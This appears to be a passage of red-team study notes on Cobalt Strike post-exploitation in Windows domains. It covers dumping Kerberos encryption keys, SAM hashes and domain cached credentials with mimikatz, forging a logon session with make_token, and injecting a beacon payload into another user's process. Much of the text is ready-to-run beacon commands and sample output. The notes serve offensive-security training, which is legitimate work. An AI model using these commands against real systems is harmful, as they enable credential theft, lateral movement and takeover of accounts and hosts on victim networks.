 Exists a mimikatz module that dumps kerberos encryption keys. Since most of the windows services choose to use kerberos over NTLM.

```
beacon> mimikatz sekurlsa::ekeys
```

We are interested in `aes256_hmac` and `aes128_hmac` if is available. It will be used during **Overpass-The-Hash** technique.


# Security Account Manager

The Security Account Manager (SAM) database holds the NTLM hashes of local accounts.

It's common that a local administrator use the same password across the entire environment.

```
beacon> mimikatz lsadump::sam
```

# Domain Cached Credentials

Domain Cached Credentials were designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain.

```
beacon> mimikatz lsadump::cache
```

# Make Token

The `make_token` module which takes the username, domain and plaintext password for a user, as well as a logon type.

This logon type allows the caller to clone its current token and specify new credentials for outbound connections. The new logon session has the same local identifier but uses different credentials for other network connections.

`make_token` uses `LOGON32_LOGON_NEW_CREDENTIALS` logon type.

```
beacon> make_token CORP\user Passw0rd!
```

# Process Injection

We can `inject` a beacon payload into a target process in the form of shellcode.

If we inject the beacon into a process owned by a different user, the beacon will run with the local and domain privileges of that user.

```
beacon> ps

PID   PPID  Name                   Arch  Session     User
---   ----  ----                   ----  -------     -----
448   796   explorer.exe            x64  1           CORP\user

beacon> inject 448 x64 smb-p2p-payload
[+] established link to child beacon: 10.10.10.10
```
